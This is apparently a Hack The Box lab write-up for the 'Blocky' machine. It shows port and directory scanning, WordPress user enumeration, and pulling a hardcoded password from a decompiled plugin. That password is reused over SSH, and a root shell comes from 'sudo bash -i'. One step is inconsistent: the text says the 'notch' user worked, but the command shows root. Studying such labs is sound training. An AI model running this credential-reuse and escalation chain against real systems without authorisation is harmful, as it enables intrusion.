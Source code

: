 # Blocky
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -sV -p- 10.129.166.115 -oN outputNMAP.txt
```

```
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp?
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll add "blocky.htb" to my hosts file.


Let's take a look at the web page.

![webPage](IMG/img1.png)

This server is used to host a minecraft server and this page is related to that server. We can see in the description that plugins are being used.

Brute forcing the directories if the web server we can see word press is being used.
```bash
gobuster dir -u http://blocky.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```
/.php                 (Status: 403) [Size: 289]
/.html                (Status: 403) [Size: 290]
/index.php            (Status: 301) [Size: 0] [--> http://blocky.htb/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/wp-login.php         (Status: 200) [Size: 2397]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/license.txt          (Status: 200) [Size: 19935]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/readme.html          (Status: 200) [Size: 7413]
```

Whatweb also reveals the word press version:
```bash
whatweb http://blocky.htb         

http://blocky.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.166.115], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[BlockyCraft &#8211; Under Construction!], UncommonHeaders[link], WordPress[4.8]
```

I'll use wpscan to enumerate wordpress content.
```bash
wpscan --url http://blocky.htb -e u
```

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

We found the user "notch".

Looking at the plugins directory we find 2 files.

I'll download and examine them for hardcoded credentials.
Note: I'll be using jd-gui for this.

![creds](IMG/img3.png)

I found credentials for the sql server in the BlockyCore.jar file.

```
sqlUser = "root";
  
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
## Foothold:

We can try this on ssh and ftp. 

This did not work. But I'll try using the notch user instead of root.

This worked.

```bash
ssh root@blocky.htb
8YsqfCTnvxAUeduzjNSXe22
```

Now we can get the user flag

```bash
cat ~/user.txt
```

## We got the user flag!

## Privilege Escalation:

I'll run sudo -l to list the commands I can run as the root user.

```bash
sudo -l


<SNIP>
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

As we can see, all commands can be run as the root user. I'll start a bash shell

```bash
sudo bash -i
8YsqfCTnvxAUeduzjNSXe22
```

![root](IMG/img4.png)

Now we can get the root flag.

```bash
cat ~/root.txt
```

## We got the root flag!